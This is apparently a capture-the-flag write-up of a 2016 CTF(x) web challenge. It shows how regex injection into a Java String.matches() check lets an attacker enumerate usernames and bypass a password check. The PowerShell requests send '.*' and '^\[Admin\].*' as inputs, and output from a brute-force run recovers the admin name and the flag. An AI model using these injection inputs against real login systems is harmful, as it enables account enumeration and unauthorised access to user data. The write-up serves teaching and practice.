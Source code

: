 ```yaml
---
title: '[CTF(x) 2016 : WEB] Harambehub – 100 pts Writeup'
author: Megabeets
type: post
date: 2016-08-28T21:37:46+00:00
url: /ctfx-2016-web-harambehub-100-pts/
categories:
  - CTF(x)
  - Writeups
tags:
  - CTF
  - CTF(x)
  - Powershell
  - Web
  - Writeups

---
```

**Challenge description:**  
_This website was created in honor of harambe: http://problems.ctfx.io:7003_  
 _Problem author: omegablitz_  
[HarambeHub.java][1]  
[ _User.java_][2]

This challenge was the second in the Web category and it actually was the first time I’ve ever seen something like that. We are given with a url, which returns an empty page and two source-files written in Java for Spark Framework. Make sure you read the given source-files before you continue.

The main file, HarambeHub.java, contains two methods which are actually get() and post() routes to two different pages, as you can see below:

```java
public class HarambeHub {
    public static void main(String[] args) {
        post("/users", (req, res) -&gt; {
            String username = req.queryParams("username");
            String password = req.queryParams("password");
            String realName = req.queryParams("real_name");
           ...
        });
		
        get("/name", (req, res) -&gt; {
            String username = req.queryParams("username");
            String password = req.queryParams("password");
      	...
        });
    }
}

```


Reading both source files we understand the application is capable of creating a new account and to retrieve the real_name of a user if you know its username and password.

Let’s try to register a new user, using a simple Powershell code:

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username="Megabeets"; password="VeggiesAreGood"; real_name="Itay Cohen"}).Content

```


We results with “_OK: Your username is &#8220;[Member] Megabeets&#8221;_”. As you can see, the text “[Member] “ has been added to the username we supplied. By reading the function that handles the registration process we understand that we can register a user with that name again and again. Executing the exact same code results with the exact same answer: “_OK: Your username is &#8220;[Member] Megabeets&#8221;_”. Let’s try this again but this time with “[Member] Megabeets” in the username. Now we end up with an error saying: “_FAILED: User with that name already exists!_”.

Let’s take a look at the code that checks if a given username already exists:

```java
...
for (User user : User.users) {
                if(user.getUsername().matches(username)) {
                    return "FAILED: User with that name already exists!";
                }
            }
            new User("[Member]	 " + username, password, realName);
            return "OK: Your username is \"" + "[Member] " + username + "\"";
...

```


As you can see, the code compares the two strings in attempt to check whether the username exists, but it uses String.matches() instead of String.equals(). The method String.matches() checks the match of a string to a regular rxpression pattern. Keep this in mind, it’s the key to solving the challenge. If false is returned, it creates a new User with the username “[Member] <username>”, just as we’ve seen before.

But what happens if we try to register a user with a regular expression as its desired username? Does it say that the username already exists? Let’s play with it a little bit and see what we get when sending “.\*” as the password (“.\*” is the regex pattern to **anything)**.

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username=".*"; password="VeggiesAreGood"; real_name="Itay Cohen"}).Content

```


As expected, we received the error: &#8220;FAILED: User with that name already exists!&#8221;.

Now let’s take a look at the function that retrieves the real_name of a given username.

```java
public boolean verify(String username, String password) {
        return this.username.equals(username) && this.master.matches(password);
    }

```


This function also uses String.matches() to compare the given password with the user’s password. Let’s see it in action:

```powershell
Invoke-WebRequest "http://problems.ctfx.io:7003/name" -Method Get -Body @{username="[Member] Megabeets"; password="VeggiesAreGood"}

```


We results with: “_Itay Cohen_”.

Good. Now we’ll send the same request but this time with wildcard as the password.

```powershell
Invoke-WebRequest "http://problems.ctfx.io:7003/name" -Method Get -Body @{username="[Member] Megabeets"; password=".*"}

```


We again results with: “_Itay Cohen_”.

Let’s sum up what we have understood until now:

  1. We can get the real_name of any user if we know its username.
  2. We can understand if username already exists by using regular expressions.

That’s mean that we need to run through all the possible usernames till we find the user which his password is the flag. My gut feeling tells me the username will probably start with “[Admin]”.

I’ll do a simple test to check whether indeed a user begins with “[Admin]” exists. If so, only the developer can add a user with such a username because every registered username is prepend with “[Member]”.

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username="^\[Admin\].*"; password="pass"; real_name="Itay Cohen"}).Content

```


“_FAILED: User with that name already exists!_”.

I wrote a simple script to automate the process. May the bruteforce be with us.



Results:

```
Match found: \[Admin\] A
Match found: \[Admin\] Ar
Match found: \[Admin\] Arx
Match found: \[Admin\] Arxe
Match found: \[Admin\] Arxen
Match found: \[Admin\] Arxeni
Match found: \[Admin\] Arxenix
Match found: \[Admin\] Arxenixi
Match found: \[Admin\] Arxenixis
Match found: \[Admin\] Arxenixisa
Match found: \[Admin\] Arxenixisal
Match found: \[Admin\] Arxenixisalo
Match found: \[Admin\] Arxenixisalos
Match found: \[Admin\] Arxenixisalose
Match found: \[Admin\] Arxenixisaloser

```


It seems like we’ve found the username. Let’s get its real_name:

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/name?username=\[Admin\] Arxenixisaloser; password=.*").content

```


And we got the flag:

_ctf(h4r4mb3\_d1dn1t\_d13\_4\_th1s\_f33ls\_b4d)_

<p style="text-align: right;">
  <img src="../uploads/megabeets_inline_logo.png" />Eat Veggies.
</p>

<img decoding="async" loading="lazy" class="alignleft" src="http://www.gannett-cdn.com/-mm-/748c68a68596b4b3be54484af8d31875e45f9fe5/c=179-0-2659-3307&r=537&c=0-0-534-712/local/-/media/2016/05/29/Cincinnati/Cincinnati/636001135964333349-Harambe2.jpg" width="172" height="209" /> 

**Harambe the Gorilla** was a 17-year-old Western lowland silverback gorilla who was shot and killed at the Cincinnati Zoo after a child fell into his enclosure in late May 2016. The incident was wildly criticized online by many who blamed the child’s parents for the gorilla’s untimely death.

**RIP Harambe.**

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://gist.github.com/ITAYC0HEN/5df90c37fcdd78196778475e67011f7a
 [2]: https://gist.github.com/ITAYC0HEN/ad92229f6ae7f5fdf3c47ec752959b7e